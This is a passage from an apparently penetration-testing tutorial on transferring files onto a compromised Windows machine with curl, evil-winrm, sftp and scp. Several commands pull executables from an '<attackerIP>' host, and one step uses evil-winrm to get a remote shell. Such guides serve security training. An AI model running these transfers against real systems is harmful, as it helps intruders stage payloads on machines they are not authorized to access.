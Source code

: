 ```bash

# powershell v3+
PS C:\> curl -UseBasicParsing http://<attackerIP>:<port>/file_to_be_uploaded.exe -O <new_filename.exe>

# Windows 10, version 1803+
C:\> curl http://<attackerIP>:<port>/file_to_be_uploaded.exe -o <new_filename.exe>
```

### 7. evil-winrm
When the nmap/rustscan output shows port 5985 open you have potentially hit the jackpot and are able to use `evil-winrm` to pop a remote shell. 
WinRM is a remote management toolkit that is exploitable and only needs two things:
1. credentials for the host, 2. to be activated, but if you see port 5985 open there is a high likelihood that this is the case.
For your convenience `evil-winrm` also has an upload functionality which is unfortunately not visible in the `help` but if you type `menu`. You need credentials for `winrm` and you can also enable it once you are on the box and have a privileged user - via `winrm quickconfig`.

```bash
*Evil-WinRM* PS C:\Users\maikroservice\> upload /home/kali/file_to_be_uploaded.exe
```

### 8. sftp
Since Windows 10 you have ssh support and that also means you have file transfer protocol via ssh aka `sftp`. You need remote credentials for this one but you can always use your local kali instance credentials to connect to. 
The usage is very similar to `ftp` - you are able to use basic commands, such as `pwd`, `dir`, and `put`/`get` to receive/send files. 
One very neat feature of `sftp` over `ftp` is the encryption via ssh, this should not be underrated in real-life engagements. 

```bash
PS C:\> sftp <user>@<AttackerIP> -P <ssh_remote_port>
sftp> put /home/kali/<file_to_be_uploaded.exe>
Fetching /home/kali/file_to_be_uploaded.exe to file_to_be_uploaded.exe
/home/kali/file_to_be_uploaded.exe    100% 130 8.6KB/s 00:00
```

### 9. scp
Along the same line, we can also use secure copy or `scp` to transfer files via ssh. For this, we again need credentials for a remote host (usually your kali machine) and a file that we want to be uploaded. This is also encrypted via ssh so more secure than some of the http-based transfers we explored earlier. It should come with newer windows versions and most linux distros. 
```bash
scp <username>@<AttackerIP>:/home/kali/file_to_be_uploaded.exe <file_location_on_windows, e.g. c:\users\maikroservice\desktop\file_to_be_uploaded.exe>
```

## impacket

For the last five ways to get your files onto a Windows-box we will look at the `impacket` toolkit. 
